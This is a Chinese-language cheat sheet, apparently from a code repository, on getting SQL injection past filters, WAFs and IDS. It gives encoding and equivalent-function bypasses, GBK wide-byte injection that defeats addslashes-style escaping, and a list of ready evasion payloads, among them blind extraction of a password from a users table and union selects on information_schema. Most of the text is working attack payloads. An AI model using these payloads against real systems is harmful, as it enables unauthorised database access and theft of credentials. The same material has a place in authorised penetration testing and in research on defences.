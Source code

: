 10. 通用绕过（编码）：

	如URLEncode编码，ASCII,HEX,unicode编码绕过：
	or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)

11. 等价函数绕过：

		hex()、bin() ==> ascii()
		
		sleep() ==>benchmark()
		
		concat_ws()==>group_concat()
		
		mid()、substr() ==> substring()
		
		@@user ==> user()
		
		@@datadir ==> datadir()
		
		举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　
		
		或者：
		substr((select 'password'),1,1) = 0x70
		strcmp(left('password',1), 0x69) = 1
		strcmp(left('password',1), 0x70) = 0
		strcmp(left('password',1), 0x71) = -1

12. 宽字节注入：

	过滤 ' 的时候往往利用的思路是将 ' 转换为 \'

		在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：
		（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：
			id=-1%df%27union select 1,user(),3--+
		（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。
	
		一般产生宽字节注入的PHP函数：
			1.replace（）：过滤 ' \ ，将 ' 转化为 \' ，将 \  转为 \\，将 " 转为 \" 。用思路一。
			2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：' , " , \ 。用思路一（防御此漏洞，要将 mysql_query 设置为 binary 的方式）
			3.mysql_real_escape_string()：转义下列字符：\x00     \n     \r     \     '     "     \x1a（防御，将mysql设置为gbk即可）
13. 通过类型转换修饰符N绕过基于知识的模式匹配IDS
 
	可以说这是一个不错的想法，他除了能在某种程度上绕过限制，而且还有别的作用，大家自己好好想想吧。关于利用，如or ‘swords’ = N’ swords’ ，大写的N告诉mssql server 字符串作为nvarchar类型，它起到类型转换的作用，并不影响注射语句本身，但是可以避过基于知识的模式匹配IDS。

##SQLi Filter Evasion Cheat sheet
###Cheat sheet

	#注释
	‘ or 1=1#
	‘ or 1=1/* (MySQL < 5.1)
	' or 1=1;%00
	' or 1=1 union select 1,2 as `
	' or#newline
	' /*!50000or*/1='1
	' /*!or*/1='1
	#前缀
	+ – ~ !
	‘ or –+2=- -!!!’2
	#操作符：
	^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, I
	S, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL
	#空格
	%20 %09 %0a %0b %0c %0d %a0 /**/
	‘or+(1)sounds/**/like“1“–%a0-
	‘union(select(1),tabe_name,(3)from`information_schema`.`tables`)#
	#有引号的字符串
	SELECT ‘a’